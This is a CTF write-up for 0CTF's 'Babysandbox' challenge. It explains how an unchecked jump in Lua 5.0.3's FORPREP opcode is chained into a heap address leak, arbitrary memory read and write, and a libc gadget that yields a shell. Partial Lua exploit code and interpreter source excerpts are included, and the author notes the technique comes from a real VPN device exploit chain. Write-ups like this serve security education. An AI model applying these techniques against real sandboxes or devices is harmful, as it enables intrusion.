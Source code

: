 #### WriteUp For 0CTF Babysandbox

This Challenge is inspired by a VPN SSL device I exploited in the work and I use part of the exploit chain as this challenge.
The server is running Lua 5.0.3 with most sensitive functions nopped including `popen`, `execute`.However the function `loadstring` is available.

```diff
-  {"loadfile", luaB_loadfile},
-  {"dofile", luaB_dofile},
+  /* {"loadfile", luaB_loadfile}, */
+  /* {"dofile", luaB_dofile}, */
   {"loadstring", luaB_loadstring},
-  {"require", luaB_require},
+  /* {"require", luaB_require}, */
```

  
BTW, PIE is also compiled to the binary. 

```diff
 # debug information. If you only want the shared libraries, you may want to
 # add -fPIC to MYCFLAGS.
 #
-MYCFLAGS= -O2
+MYCFLAGS= -O2 -fPIC
 #MYCFLAGS= -O3 -fomit-frame-pointer # -fPIC
 
 # Write here any options you may need for your C linker.
-#MYLDFLAGS=
+MYLDFLAGS= -pie -fPIE
```

#### Lua Background

Lua 5.0.3 is a very old version of Lua released in the 2006 and there is a bytecode verifier before lua 5.2 which means lua 5.0.3 also has a verifier. [future of bytecode verifier](http://lua-users.org/lists/lua-l/2009-03/msg00039.html)
There are two types public exploits for the lua bytecode. 

* One is that use the `index-out-of-bound` of `LOADK` in [GitHub - saelo/33c3ctf-repl: Code and exploit for the "read-eval-pwn loop" challenge of 33C3 CTF](https://github.com/saelo/33c3ctf-repl) which is based on lua without bytecode verifier. However, in the verifier of lua 5.0.3, the index of `LOADK` is checked.

```c
switch (getOpMode(op)) {
  case iABC: {
    b = GETARG_B(i);
    c = GETARG_C(i);
    if (testOpMode(op, OpModeBreg)) {
      checkreg(pt, b);
    }
    else if (testOpMode(op, OpModeBrk))
      check(checkRK(pt, b));
    if (testOpMode(op, OpModeCrk))
      check(checkRK(pt, c));
    break;
  }
  case iABx: {
    b = GETARG_Bx(i);
    if (testOpMode(op, OpModeK)) check(b < pt->sizek);
    break;
  }
  case iAsBx: {
    b = GETARG_sBx(i);
    break;
  }
}
```

* The other type exploit pubic is from [Exploiting Lua 5.1 on 32-bit Windows.md · GitHub](https://gist.github.com/corsix/6575486)
which exploited by the type confusion of `FORLOOP`. But this vulnerable is unavailable in 5.0.3 which checks the type of `FORLOOP` params.

```c
case OP_FORLOOP: {
  lua_Number step, idx, limit;
  const TObject *plimit = ra+1;
  const TObject *pstep = ra+2;
  if (!ttisnumber(ra))
    luaG_runerror(L, "`for' initial value must be a number");
  if (!tonumber(plimit, ra+1))
    luaG_runerror(L, "`for' limit must be a number");
  if (!tonumber(pstep, ra+2))
    luaG_runerror(L, "`for' step must be a number");
  step = nvalue(pstep);
  idx = nvalue(ra) + step;  /* increment index */
  limit = nvalue(plimit);
  if (step > 0 ? idx <= limit : idx >= limit) {
    dojump(pc, GETARG_sBx(i));  /* jump back */
    chgnvalue(ra, idx);  /* update index */
  }
  break;
}
```

So No public exploitations are available here.

#### Hunt For a new one.

The vulnerablity I found lays in opcode `FORPREP` which can control PC in lua vm and no check in verifier

```c
case OP_TFORPREP: {  /* for compatibility only */
  if (ttistable(ra)) {
    setobjs2s(ra+1, ra);
    setobj2s(ra, luaH_getstr(hvalue(gt(L)), luaS_new(L, "next")));
  }
  dojump(pc, GETARG_sBx(i));
  break;
}
```


```c
  opmode(0, 1, 0, 0, 1, 0, iABC)		/* OP_MOVE */
 ,opmode(0, 0, 0, 0, 1, 1, iABx)		/* OP_LOADK */
 ,opmode(0, 0, 0, 0, 1, 0, iABC)		/* OP_LOADBOOL */
 ,opmode(0, 1, 0, 0, 1, 0, iABC)		/* OP_LOADNIL */
 
case iAsBx: {
 b = GETARG_sBx(i);
 break;
}
```

#### Info Leak

Lua is able to leak an address of `table` or `function` which lays in heap.

```
Lua 5.0.3  Copyright (C) 1994-2006 Tecgraf, PUC-Rio
> print(tostring({}))
table: 0x55afbd47d7b0
```

#### Aribitrary Address Read


Here use struct table to Heap Fengshui and the size of Table is 0x48

```c
typedef struct Table {
  CommonHeader;
  lu_byte flags;  /* 1<<p means tagmethod(p) is not present */ 
  lu_byte lsizenode;  /* log2 of size of `node' array */
  struct Table *metatable;
  TObject *array;  /* array part */
  Node *node;
  Node *firstfree;  /* this position is free; all positions after it are full */
  GCObject *gclist;
  int sizearray;  /* size of `array' array */
} Table;
```
So we can leak the string address:

```lua
a = {}
print(tostring(a))
a = nil
collectgarbage()
a = string.rep("a", 47)
```
Furthermore, any kind of structure whose size is 0x50 in Lua can be leak in this method including the constant chunk and PC chunk of function.
We construct such a function:

```lua
-- assert constant foo = 4
-- assert instruct foo = 8 or 9
local function foo()
   local a=1
   local b=2
   b = nil
   return string.len(a)
end
```

```
function <x.lua:1> (9 instructions, 72 bytes at 0x18b6a90)
0 params, 4 stacks, 0 upvalues, 2 locals, 4 constants, 0 functions
	1	[2]	LOADK    	0 0	; 1
	2	[3]	LOADK    	1 1	; 2
	3	[4]	LOADNIL  	1 1 0
	4	[5]	GETGLOBAL	2 2	; string
	5	[5]	GETTABLE 	2 2 253	; "len"
	6	[5]	MOVE     	3 0 0
	7	[5]	TAILCALL 	2 2 0
	8	[5]	RETURN   	2 0 0
	9	[6]	RETURN   	0 1 0
```

After that, We can replace the `LOADK 0 0` to `FORREPR 0 PC` to JUMP to the fake PC chunk we controlled.

In the fake PC chunk, we `LOADK 0 ADDR` and jump back to the `foo` function. The address is a string type in LUA.

```c
LUA_API size_t lua_strlen (lua_State *L, int idx) {
  StkId o = luaA_indexAcceptable(L, idx);
  if (o == NULL)
    return 0;
  else if (ttisstring(o))
    return tsvalue(o)->tsv.len;
  else {
    size_t l;
    lua_lock(L);  /* `luaV_tostring' may create a new string */
    l = (luaV_tostring(L, o) ? tsvalue(o)->tsv.len : 0);
    lua_unlock(L);
    return l;
  }
}
```

```c
/*
** Lua values (or `tagged objects')
*/
typedef struct lua_TObject {
  int tt;
  Value value;
} TObject;
```



#### Arbitrary Address Write

`Write` is very similar to `READ`. Here we jump to the opcode `settable` to write.

#### Shell

With Arbitrary Address Read and Write, we are able to leak libc base, leak stack as well as leak ELF base.

Here I exploit by changing the return address in stack to the one garget in libc as well as set ```*($rsp+0x50)=0```

#### Conclusion

The whole exploit has been attached and the success rate is about ten percentages, which is enough in CTF. But in the real world, this rate should be improved and I am looking forward to sharing how it can be improved as well as the whole exploit chain of the VPN SSL device in the future. 

![](media/15535095104511/15535152128329.jpg)


